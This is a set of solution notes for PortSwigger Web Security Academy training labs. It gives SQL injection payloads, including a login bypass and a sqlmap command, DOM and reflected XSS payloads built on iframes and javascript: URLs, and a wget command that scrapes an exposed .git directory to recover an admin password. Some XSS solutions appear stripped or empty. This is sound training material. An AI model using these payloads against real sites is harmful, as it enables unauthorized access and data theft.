



# Mystery lab challenge

[https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs)

# Table of Contents

- [Mystery lab challenge](#mystery-lab-challenge)
- [Table of Contents](#table-of-contents)
- [SQL injection](#sql-injection)
  - [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](#lab-sql-injection-vulnerability-in-where-clause-allowing-retrieval-of-hidden-data)
    - [Check with sqlmap](#check-with-sqlmap)
    - [Solution:](#solution)
  - [SQL injection vulnerability allowing login bypass](#sql-injection-vulnerability-allowing-login-bypass)
    - [Solution](#solution)
- [Cross-site scripting](#cross-site-scripting)
  - [Lab: Reflected XSS into HTML context with nothing encoded](#lab-reflected-xss-into-html-context-with-nothing-encoded)
    - [Solution](#solution)
  - [Lab: Stored XSS into HTML context with nothing encoded](#lab-stored-xss-into-html-context-with-nothing-encoded)
    - [Solution](#solution)
  - [Lab: DOM XSS in document.write sink using source location.search](#lab-dom-xss-in-document-write-sink-using-source-location-search)
    - [Solution](#solution)
  - [Lab: DOM XSS in innerHTML sink using source location.search](#lab-dom-xss-in-innerhtml-sink-using-source-location-search)
    - [Solution](#solution)
  - [Lab: DOM XSS in jQuery anchor href attribute sink using location.search source](#lab-dom-xss-in-jquery-anchor-href-attribute-sink-using-location-search-source)
    - [Solution](#solution)
  - [Lab: DOM XSS in jQuery selector sink using a hashchange event](#lab-dom-xss-in-jquery-selector-sink-using-a-hashchange-event)
    - [Solution](#solution)
- [Information disclosure](#information-disclosure)
  - [Lab: Information disclosure in version control history](#lab-information-disclosure-in-version-control-history)
      - [Download Git Repo](#download-git-repo)
      - [Browse .git repo with command line `git` client](#browse-git-repo-with-command-line-git-client)

# SQL injection

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

> This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
> 
> SELECT * FROM products WHERE category = 'Gifts' AND released = 1
> To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

### Check with sqlmap

`sqlmap -u https://ac2c1fc91f0b7373c08708640007008f.web-security-academy.net/filter\?category\=Gifts`

### Solution:
> https://ac3a1f901e2f8e40c0277bda00020033.web-security-academy.net/filter?category=Pets'+OR+1=1--

## SQL injection vulnerability allowing login bypass

> This lab contains an SQL injection vulnerability in the login function.
> 
> To solve the lab, perform an SQL injection attack that logs in to the application as the administrator user.

### Solution

%' OR '0'='0

# Cross-site scripting

## Lab: Reflected XSS into HTML context with nothing encoded

> This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.
> 
> To solve the lab, perform a cross-site scripting attack that calls the alert function.

### Solution
Put this into search field:
``

## Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

### Solution

## Lab: DOM XSS in document.write sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`">`

## Lab: DOM XSS in innerHTML sink using source location.search

> This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.
> 
> To solve this lab, perform a cross-site scripting attack that calls the alert function.

### Solution

`'<iframe src="javascript:alert('hacked')"></iframe>`

## Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

> This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.
> 
> To solve this lab, make the "back" link alert document.cookie.

### Solution

`https://ac9e1f261f8059e7c0480f4600a40022.web-security-academy.net/feedback?returnPath=javascript:alert(%27hacked%27)`

## Lab: DOM XSS in jQuery selector sink using a hashchange event

> This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.
> 
> To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

### Solution

`<iframe width="100%" height="100%" src="https://ac5f1f911e4329f7c0382ff2007200c0.web-security-academy.net//#" onload="this.src+=''"></iframe>`

# Information disclosure

## Lab: Information disclosure in version control history

> This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

#### Download Git Repo
wget -r https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/.git/

#### Browse .git repo with command line `git` client

https://acfe1f7c1e358e5ec0836b3d0033001e.web-security-academy.net/my-account
\
User: administrator
\
Password: eoj2zssgznqxoo2p3icm

